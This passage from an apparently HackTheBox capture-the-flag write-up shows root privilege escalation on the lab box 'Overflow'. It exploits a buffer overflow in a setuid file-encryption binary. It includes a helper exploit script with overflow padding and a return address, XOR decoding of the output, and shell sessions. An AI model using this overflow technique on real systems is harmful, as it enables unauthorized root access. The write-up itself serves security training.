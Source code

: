 
It core dumps because it doesn’t have anything to return to coming out of
`encrypt`. Still, `/tmp/0xdf-enc` is there owned by root:

    
    
    tester@overflow:/opt/file_encrypt$ ls -l /tmp/0xdf-enc 
    -rw-rw-r-- 1 root tester 12 Sep 30 06:25 /tmp/0xdf-enc
    

Better yet, if I XOR each byte by 0x9b, I get the original message:

    
    
    tester@overflow:/opt/file_encrypt$ python3
    Python 3.6.9 (default, Jan 26 2021, 15:33:00) 
    [GCC 8.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> with open('/tmp/0xdf-enc', 'rb') as f:
    ...     enc = f.read()
    ... 
    >>> enc
    b'\xd3\xfe\xf7\xf7\xf4\xbb\xec\xf4\xe9\xf7\xff\x91'
    >>> print(''.join([chr(c^0x9b) for c in enc]))
    Hello world
    

I’ll write a quick helper script that prints the output needed to run the
exploit:

    
    
    #!/usr/bin/env python3
    
    import sys
    
    
    print("-202976456")
    print("A"*44 + "\x5b\x58\x55\x56")
    print(sys.argv[1])
    print(sys.argv[2])
    

This will just print the pin, newline, the overflow to return to `encrypt`,
newline, the input file, newline, and output file, newline. I can run that to
generate the input needed to encrypt a file:

    
    
    tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf /tmp/out | ./file_encrypt 
    This is the code 1804289383. Enter the Pin: name: Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Segmentation fault (core dumped)
    tester@overflow:/opt/file_encrypt$ xxd /tmp/out 
    00000000: d3fe f7f7 f4bb ecf4 e9f7 ff91            ............
    

In this case I’m doing in one line what I did above, encrypting my file with
“Hello world”, and getting the same output.

### Get root Files
